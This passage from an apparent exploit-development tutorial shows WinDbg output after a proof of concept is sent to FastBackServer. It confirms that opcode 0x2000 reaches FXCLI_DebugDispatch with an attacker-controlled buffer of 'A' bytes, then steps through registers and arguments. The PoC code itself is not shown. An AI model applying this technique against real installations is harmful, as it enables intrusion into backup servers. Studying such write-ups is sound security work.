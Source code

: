 launching the PoC and checking the output.

```shell
Breakpoint 0 hit
eax=0609c8f0 ebx=0609c418 ecx=00002000 edx=00000001 esi=0609c418 edi=00669360
eip=0056d1ef esp=0d47e334 ebp=0d4dfe98 iopl=0 nv up ei pl nz ac po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000212

0056d1ef 81bdd0e4f9ff00200000 cmp dword ptr [ebp-61B30h],2000h
ss:0023:0d47e368=00002000       # Our opcode is in place
```

this confirms that we can reach `FXCLI_DebugDispatch` with opcode `0x2000`. 

viewing the entire debugging session:

```shell
eax=0d4d3b30 ebx=0609c418 ecx=018e43a8 edx=0d4d3b2c esi=0609c418 edi=00669360
eip=0057381c esp=0d47e328 ebp=0d4dfe98 iopl=0 nv up ei pl zr na pe nc cs=001b
ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
FastBackServer!FXCLI_OraBR_Exec_Command+0x7366:
0057381c e85fa30000 call FastBackServer!FXCLI_DebugDispatch (0057db80)
0:006> dd esp L3
0d47e328 018e43a8 0d4d3b30 0d4d3b2c
0:006> dd 0d4d3b30
0d4d3b30 41414141 41414141 41414141 41414141
0d4d3b40 41414141 41414141 41414141 41414141
0d4d3b50 41414141 41414141 41414141 41414141
0d4d3b60 41414141 41414141 41414141 41414141
0d4d3b70 41414141 41414141 41414141 41414141
0d4d3b80 41414141 41414141 41414141 41414141
0d4d3b90 41414141 41414141 41414141 41414141
0d4d3ba0 41414141 41414141 41414141 41414141
```

let's check it out step by step.

first, the state is registered at the call.

```shell
eax=0d4d3b30 ebx=0609c418 ecx=018e43a8 edx=0d4d3b2c 
esi=0609c418 edi=00669360
eip=0057381c esp=0d47e328 ebp=0d4dfe98
```

the instruction pointer (EIP) is about to execute the following.

```shell
call FastBackServer!FXCLI_DebugDispatch (0057db80)
```

check out the three function arguments.

```shell
0:006> dd esp L3
0d47e328 018e43a8 0d4d3b30 0d4d3b2c
```
